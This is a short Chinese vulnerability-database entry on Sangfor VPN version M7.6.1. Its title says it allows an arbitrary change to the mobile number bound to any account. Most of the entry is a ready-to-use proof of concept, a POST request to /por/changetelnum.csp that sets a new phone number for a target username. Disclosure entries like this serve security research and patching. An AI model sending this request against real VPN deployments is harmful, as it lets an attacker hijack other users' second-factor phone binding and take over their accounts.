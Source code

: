 ```yaml
---
title: '深信服VPN任意修改绑定手机'
date: Thu, 17 Sep 2020 04:47:25 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

M7.6.1

### 漏洞POC

```
https://127.0.0.1/por/changetelnum.csp?apiversion=1 
```POST：```
newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1 
```整体如下： ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/@P0LRSLXDTR7H.png)
